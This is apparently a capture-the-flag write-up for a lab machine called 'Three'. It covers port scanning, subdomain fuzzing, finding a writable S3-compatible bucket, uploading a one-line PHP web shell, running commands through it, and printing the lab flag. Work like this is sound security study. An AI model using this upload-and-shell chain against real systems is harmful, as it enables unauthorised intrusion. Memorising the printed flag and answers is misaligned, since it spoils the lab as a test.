

# Three

This write-up is provided strictly for educational purposes, to demonstrate how misconfigurations can be identified and remediated in controlled lab environments.

## Overview

This write-up documents the complete compromise of the _Three_ machine. The attack chain is based strictly on observable evidence: reconnaissance, subdomain enumeration, S3 bucket misconfiguration, arbitrary file upload, PHP execution, and flag retrieval.

All steps are reproducible and command-driven.

---

## Answers Summary

- **Open TCP ports** → `2`
- **Email domain** → `thetoppers.htb`
- **Hostname resolution file** → `/etc/hosts`
- **Discovered subdomain** → `s3.thetoppers.htb`
- **Service running** → `Amazon S3`
- **CLI utility** → `awscli`
- **AWS configuration command** → `aws configure`
- **List buckets command** → `aws s3 ls`
- **Web scripting language** → `PHP`
- **User Flag** → `a980d99281a28d638ac68b9bf9453c2b`

---

## 1. Initial Reconnaissance

A full TCP scan was performed:

```bash
sudo nmap -sSCV <target-ip> -p- --min-rate=1000
```

Results showed two open ports:

- **22/tcp** — SSH (OpenSSH 7.6p1 Ubuntu)
- **80/tcp** — Apache 2.4.29 (Ubuntu)

The website on port 80 referenced the domain:

```
thetoppers.htb
```

Since no DNS resolution was available, the domain was added locally:

```bash
echo "<target-ip> thetoppers.htb" | sudo tee -a /etc/hosts
```

---

## 2. Subdomain Enumeration

Virtual host fuzzing was performed:

```bash
ffuf -u http://thetoppers.htb -H "Host: FUZZ.thetoppers.htb" \
-w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```


This revealed the subdomain:

```
s3.thetoppers.htb
```

It was added to `/etc/hosts`:

```bash
echo "<target-ip> s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

Accessing it returned:

```bash
curl http://s3.thetoppers.htb
```

Response:

```json
{ "status": "running" }
```

HTTP headers contained multiple `x-amz-*` fields, confirming an S3-compatible service.

---

## 3. Interacting with the S3 Service

AWS CLI was configured with placeholder credentials:

```bash
aws configure
```


Then buckets were listed:

```bash
aws --endpoint-url http://s3.thetoppers.htb s3 ls
```

Output:

```
thetoppers.htb
```

Bucket contents were enumerated:

```bash
aws --endpoint-url http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

Result:

```
.htaccess
index.php
images/
```


---

## 4. Confirming Write Access

Test file upload:

```bash
echo "test" > test.txt
aws --endpoint-url http://s3.thetoppers.htb s3 cp test.txt s3://thetoppers.htb/
```

Verification:

```bash
curl http://thetoppers.htb/test.txt
```

Response:

```
test
```

The bucket allowed arbitrary file uploads.

htb/three/img/image3.png

---

## 5. Achieving Remote Code Execution

A minimal PHP web shell was created:

```bash
cat > shell.php << 'EOF'
<?php system($_GET['cmd']); ?>
EOF
```

Uploaded:

```bash
aws --endpoint-url http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb/
```

Execution test:

```bash
curl "http://thetoppers.htb/shell.php?cmd=id"
```

Output:

```
uid=33(www-data) gid=33(www-data)
```

RCE confirmed.



---

## 6. Flag Discovery

Searching for the flag:

```bash
curl "http://thetoppers.htb/shell.php?cmd=find%20/%20-name%20flag.txt%202>/dev/null"
```

Result:

```
/var/www/flag.txt
```

Retrieving the flag:

```bash
curl "http://thetoppers.htb/shell.php?cmd=cat%20/var/www/flag.txt"
```

Flag:

```
a980d99281a28d638ac68b9bf9453c2b
```


---

## Key Takeaways

- S3 bucket misconfigurations can expose full website source code.
- Writable buckets combined with server-side script execution lead directly to Remote Code Execution (RCE).
- Object storage services integrated with web roots dramatically increase impact when write access is enabled.
- Minimal PHP web shells are sufficient to pivot from file upload to full system command execution.
- Structured, proof-based enumeration prevents guesswork and ensures a controlled exploitation chain.

---

## Conclusion

The compromise followed a clear chain:

1. Full TCP reconnaissance.
2. Subdomain enumeration.
3. Identification of exposed S3-compatible storage.
4. Writable bucket discovery.
5. PHP web shell upload.
6. Remote code execution.
7. Flag retrieval.

This lab demonstrates how misconfigured object storage combined with server-side script execution leads directly to system compromise.
